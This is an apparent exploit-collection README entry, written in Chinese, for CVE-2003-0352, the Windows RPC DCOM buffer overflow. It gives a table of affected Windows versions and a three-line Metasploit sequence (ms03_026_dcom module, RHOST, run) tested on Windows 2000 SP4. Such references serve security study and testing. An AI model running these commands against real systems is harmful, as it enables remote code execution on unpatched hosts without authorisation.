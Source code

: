 ###  CVE-2003-0352

#### 描述

某些RPC的DCOM接口中的缓冲区溢出使远程攻击者可以通过格式错误的消息执行任意代码

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000        |                  |         |        |                    |
| Windows 2000        |                  |         | SP1    |                    |
| Windows 2000        |                  |         | SP2    |                    |
| Windows 2000        |                  |         | SP3    |                    |
| Windows 2000        |                  |         | SP4    | &#10004; |
| Windows Server 2003 |                  | R2      |        |                    |
| Windows Nt          |                  |         | SP1    |                    |
| Windows Nt          |                  | 4.0     | SP2    |                    |
| Windows Nt          |                  | 4.0     | SP3    |                    |
| Windows Nt          |                  | 4.0     | SP4    |                    |
| Windows Nt          |                  | 4.0     | SP5    |                    |
| Windows Nt          |                  | 4.0     | Sp6a   |                    |
| Windows Nt          |                  | 4.0     | SP6    |                    |
| Windows Xp          |                  |         | SP1    |                    |
| Windows Xp          |                  |         | Gold   |                    |

#### 利用方式

测试系统Windows 2000 SP4 x86

```
use exploit/windows/dcerpc/ms03_026_dcom
set RHOST 192.168.1.17
run
```

![image-20200823200752021](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2003-0352_win2000_x86_msf.png)

查看系统信息

![CVE-2003-0352_win2000_x86_msf2](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2003-0352_win2000_x86_msf2.png)


